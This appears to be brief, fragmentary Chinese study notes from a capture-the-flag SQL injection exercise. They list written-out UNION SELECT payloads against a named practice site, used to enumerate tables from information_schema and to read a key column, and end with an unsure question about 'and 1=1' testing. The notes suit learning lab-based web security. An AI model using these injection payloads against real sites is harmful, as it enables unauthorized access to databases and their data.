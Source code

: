 【sqlmap注入
【手工注入
1.猜解表名、列名
http://ctf5.shiyanbar.com/8/index.php?id=1 union select table_name, column_name from information_schema.columns、
2.找到了可以表thiskey猜解字段
http://ctf5.shiyanbar.com/8/index.php?id=1 union select k0y,1 from thiskey
【
and 1=1错误了表示不能注入？
